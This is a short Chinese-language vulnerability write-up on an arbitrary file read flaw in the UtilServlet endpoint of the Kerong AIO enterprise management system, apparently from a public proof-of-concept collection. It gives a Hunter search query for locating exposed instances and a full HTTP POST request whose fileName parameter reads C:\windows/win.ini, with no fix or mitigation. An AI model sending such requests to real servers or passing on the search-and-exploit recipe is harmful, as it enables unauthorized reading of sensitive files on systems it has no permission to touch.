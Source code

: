 # 科荣 AIO 管理系统 UtilServlet 存在任意文件读取漏洞

# 一、漏洞简介
科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统存在任意文件读取漏洞，攻击者可以读取敏感文件。

# 二、影响版本
+ 科荣 AIO 管理系统 

# 三、资产测绘
+ hunter`app.name="科荣 AIO"`
+ 特征

![1699631783798-97153184-155c-4762-9c58-b7c8334bc638.png](./img/KJn1NI1bH8toct3T/1699631783798-97153184-155c-4762-9c58-b7c8334bc638-007622.png)

# 四、漏洞复现
```plain
POST /UtilServlet HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Length: 52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Upgrade-Insecure-Requests: 1

operation=readErrorExcel&fileName=C:\windows/win.ini
```

![1699631836577-be6e6474-29de-4eba-aca2-4b8170c58b0a.png](./img/KJn1NI1bH8toct3T/1699631836577-be6e6474-29de-4eba-aca2-4b8170c58b0a-883570.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/udgwgxz7zdoguolr>
